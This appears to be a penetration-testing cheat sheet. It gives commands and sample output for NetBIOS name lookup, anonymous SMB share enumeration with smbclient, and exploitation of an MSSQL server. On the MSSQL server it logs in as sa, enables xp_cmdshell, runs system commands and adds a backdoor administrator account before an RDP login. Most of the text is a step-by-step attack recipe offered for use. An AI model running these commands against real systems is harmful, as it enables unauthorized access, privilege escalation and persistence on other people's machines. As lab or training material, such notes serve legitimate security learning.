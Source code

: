 ## Lookup Netbios Names

>nmblookup -A 10.11.1.31

### Example Output:

```
	DAVID           <00> -         B <ACTIVE> 
	CORP            <00> - <GROUP> B <ACTIVE> 
	DAVID           <1f> -         B <ACTIVE> 
	DAVID           <03> -         B <ACTIVE> 
	DAVID           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	CORP            <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
```

## Connect to Share without Password


This is an FTP like client to access SMB and CIFS resources on servers
-L specifies the Netbios name
-I is destination IP
-N is no password

>  smbclient -L \\COMPUTERNAME -I 10.0.0.1 -N

### Example Output:
```
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	public_access         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	
```

## Connect to specific directory

>smbclient //DAVID/public_access -I 10.11.1.31 -N

# Further Exploitation with Username and Password for MSSQL Server

## Ensure you have relevant tools installed
>apt-get install sqsh freetds-bin freetds-common freetds-dev

## Show Databases
> sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"

## Login to sql command line
>sqsh -S 10.0.0.1 -U sa -P fdasjkl3

## If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
'''
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
'''

# Output directory of C:\
> xp_cmdshell 'dir C:\'


##Add a new user and put them into Administrators Group
>xp_cmdshell 'net user bob password /add'
>go
>xp_cmdshell 'net localgroup Administrators bob /add'
>go


Now login via remote desktop if you have access
